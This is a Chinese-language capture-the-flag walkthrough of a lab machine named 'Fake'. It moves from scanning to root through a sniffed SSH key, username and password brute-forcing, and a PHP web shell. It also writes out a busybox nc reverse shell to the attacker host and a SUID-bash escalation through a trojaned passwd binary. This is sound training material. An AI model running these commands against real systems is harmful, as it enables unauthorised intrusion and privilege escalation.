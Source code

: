 # 一、信息收集

## 1. 主机发现与端口扫描

首先，在本地网络中使用 `arp-scan` 发现目标主机的 IP 地址，随后利用 `nmap` 对其进行全端口扫描，以识别开放的服务。

**主机发现:**
通过 `arp-scan` 扫描，确定目标主机 IP 为 `192.168.205.136`。

```bash
┌──(kali㉿kali)-[~]
└─$ sudo arp-scan -l
...
192.168.205.136 08:00:27:f7:e4:36       PCS Systemtechnik GmbH
...
```

**端口扫描:**
`nmap` 的扫描结果显示，目标主机开放了 **22 (SSH)** 和 **80 (HTTP)** 端口。

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p- 192.168.205.136
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
...
```

## 2. Web 服务侦察

访问 80 端口的 Web 服务，发现是一个标准的网站模板。在查看网页源代码时，发现一条关键注释，提示监听特定端口。

```html
<!-- Pay attention to listen 12345 -->
```

这个线索暗示目标主机可能会在 UDP 12345 端口上泄露某些信息。

# 二、初始访问

## 1. 发现并捕获 SSH 私钥泄露

根据 Web 源码中的提示，使用 `tcpdump` 监听目标主机与 UDP 12345 端口相关的流量。很快，我们捕获到目标主机正在广播一个经过加密的 SSH 私钥。

```bash
┌──(kali㉿kali)-[~]
└─$ sudo tcpdump -A host 192.168.205.136 and port 12345
...
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABDli31tjr
...
```

**注意**：使用 `tcpdump` 命令行工具可能会因数据包分片而导致私钥捕获不完整。在此场景下，启动 `Wireshark` 图形化界面并使用"追踪流" -> "UDP流"功能，可以确保捕获到完整的私钥。

![image-20250807220801182](http://7r1UMPHK.github.io/image/20250807220801567.webp)

## 2. 破解私钥密码并爆破用户名

我们将捕获到的完整私钥保存为 `id_rsa` 文件。尝试直接使用该私钥登录失败，表明它被密码保护。

在尝试连接 SSH 时，我们收到了一个包含 "jocke?" 艺术字的横幅，这是破解密码的关键提示。

经过尝试，确认私钥的密码就是 `jocke`。

接下来是确定用户名。由于私钥中通常包含的用户名信息已被移除，我们编写了一个简单的脚本来爆破用户名。最终发现用户名为 `jockey`。

```bash
┌──(kali㉿kali)-[/tmp]
└─$ c='abcdefghijklmnopqrstuvwxyz'; for (( i=0; i<${#c}; i++ )); do echo "jocke${c:$i:1}"; done > user

┌──(kali㉿kali)-[/tmp]
└─$ while read -r u;do echo "$u";ssh -i id_rsa "$u@192.168.205.136" -o PasswordAuthentication=no;done < user
...
jockey
...

┌──(kali㉿kali)-[/tmp]
└─$ ssh jockey@192.168.205.136 -i id_rsa
Enter passphrase for key 'id_rsa': [输入 jocke]
...
[rbash]:$
```

成功登录后，发现我们被限制在一个 `rbash` (Restricted Bash) 环境中，许多常用命令无法执行。

# 三、权限提升

## 1. 从受限 Shell 到可用 Shell

在 `rbash` 环境中，通过 `ls` 和 `cat` 等有限的命令进行探索，发现了两个关键点：

*   **用户 Flag**: `user.txt` 位于家目录下，可以直接读取。
*   **Web 后门**: 在 `/var/www/html/jockey_hack/` 目录下存在一个名为 `test.php` 的文件，这是一个简单的命令执行后门。

```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

利用这个后门，我们可以在本地监听端口，并通过 `curl` 访问该 PHP 文件来获取一个反向 Shell。

**本地监听:**

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 8888
```

**触发反弹 Shell:**

```bash
┌──(kali㉿kali)-[~]
└─$ curl 'http://192.168.205.136/jockey_hack/test.php?cmd=busybox+nc+192.168.205.128+8888+-e+/bin/bash'
```

获取到的新 Shell 虽然是 `bash`，但其环境变量 `PATH` 被修改，导致命令无法正常使用。通过 `jockey` 用户家目录下的 `.bashrc` 文件可以确认这一点。我们首先需要手动设置一个正常的 `PATH` 环境变量来恢复 Shell 的功能。

```bash
jockey@Fake:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

## 2. 从 `jockey` 用户到 `backup` 用户

在 `jockey` 的家目录中，一个名为 `note.txt` 的文件写着 "I like to backup."，这强烈暗示 `backup` 用户是下一个目标。通过 `cat /etc/passwd` 我们发现 `backup` 用户存在，但其登录 Shell 被设置为 `/usr/sbin/nologin`。

然而，经过检查发现 `/usr/sbin/nologin` 文件实际上是一个被替换的 `/bin/bash` 副本，这是一个隐藏的后门。

```bash
jockey@Fake:~$ dpkg -V
...
??5??????   /usr/bin/passwd
...
??5??????   /usr/sbin/nologin

jockey@Fake:/tmp$ ls -al /usr/sbin/nologin
-rwxr-xr-x 1 root root 1168776 May 18 23:38 /usr/sbin/nologin

jockey@Fake:/tmp$ diff /usr/sbin/nologin /bin/bash

```

接下来，使用 `hydra` 对 `backup` 用户的 SSH 密码进行爆破，成功获得密码 `12345`。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ hydra -l backup -P /path/to/password-list.txt ssh://192.168.205.136
...
[22][ssh] host: 192.168.205.136   login: backup   password: 12345
```

使用新凭据登录 `backup` 用户。

## 3. 从 `backup` 用户到 `root`

登录 `backup` 用户后，在其家目录 `/var/backups` 下，发现了一个名为 `passwd_bak` 的文件。通过与系统当前的 `/usr/bin/passwd` 文件进行对比，发现后者已被修改。

```bash
backup@Fake:~$ which passwd
/usr/bin/passwd
backup@Fake:~$ diff passwd_bak /usr/bin/passwd
Binary files passwd_bak and /usr/bin/passwd differ
```

使用 `strings` 命令分析被修改的 `/usr/bin/passwd` 文件，发现它会加载一个恶意的共享库：`/etc/.libc/evil.so`。

继续分析 `/etc/.libc/evil.so`，发现它会在被加载时执行一个脚本 `/var/backups/evil.sh`。

由于 `backup` 用户对 `/var/backups` 目录有写入权限，我们可以利用这个机制进行提权。

1. **创建 Payload**: 创建 `/var/backups/evil.sh` 脚本，内容为给 `/bin/bash` 添加 SUID 权限，并赋予其可执行权限。

   ```bash
   backup@Fake:~$ echo 'chmod +s /bin/bash' > /var/backups/evil.sh
   backup@Fake:~$ chmod +x /var/backups/evil.sh
   ```

2. **触发木马**: 执行被修改过的 `passwd` 命令。该命令拥有 SUID root 权限，因此它加载的 `evil.so` 库以及执行的 `evil.sh` 脚本都将以 root 身份运行。

   ```bash
   backup@Fake:~$ passwd
   ```

3. **获取 Root Shell**: `passwd` 命令执行后，`/bin/bash` 就被设置了 SUID 位。此时，我们只需执行 `bash -p` 即可获得一个 root 权限的 Shell。

   ```bash
   backup@Fake:~$ ls -al /bin/bash
   -rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash
   backup@Fake:~$ bash -p
   bash-5.0# id
   uid=34(backup) gid=34(backup) euid=0(root) egid=0(root) groups=0(root),34(backup)
   ```

# 四、夺取旗帜

成功获取 `root` 权限后，读取最终的旗帜文件。

```bash
bash-5.0# cat /home/jockey/user.txt
flag{user-7fc904f5c88c07c18b558dc203729555}

bash-5.0# cat /root/root.txt
flag{root-3a7d567ac33be7bb8a77a7ce96d35913}
```

渗透测试完成。